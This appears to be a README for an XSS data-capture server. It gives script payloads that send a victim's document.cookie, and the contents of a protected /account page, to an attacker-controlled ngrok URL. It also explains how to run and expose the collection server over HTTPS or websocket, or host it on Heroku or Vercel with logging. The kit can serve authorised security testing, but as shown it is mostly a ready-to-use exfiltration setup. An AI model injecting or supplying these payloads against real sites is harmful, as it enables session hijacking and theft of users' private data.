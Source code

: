 ## info
http server capture user data by either sending the data in a query or in the body.

#### Capture user cookies ####

```js
  <script>
      fetch(`https://NGROK-URL?cookie=${encodeURIComponent(document.cookie)}`)
  </script>
```

#### Capture protected page or data ####
```js
  <script>
      fetch('/account)
          .then(p => p.text())
          .then(t =>
          fetch('https://NGROK-URL', {
            method: "POST",
            headers: { 'Content-Type':'application/json' },
            body: JSON.stringify({p:t})
          })
         ) 
  </script>
```
_____________________________

### Running the servers

The first step is to install depencencies:

```bash
npm install
```

Then you can run the regular HTTP server (CORS enabled):

```bash
npm run http
```

Or the websocket server:

```bash
npm run ws
```

_____________________________

### HTTPS/WSS/External access

You can use ngrok to connect via HTTPS, WSS or externally without changing any configuration.
https://dashboard.ngrok.com/get-started

Once it's installed, you can then expose the HTTP server:

```bash
ngrok http 8000
```

Or the Websocket server:

```bash
ngrok http 8080
```

_Just use wss://NGROK_URL  instead of https://NGROK_URL for wss connections_
<br>
if you dont want to use ngrok you can host them on heroku or vercel but insted of console.log write to a log file 
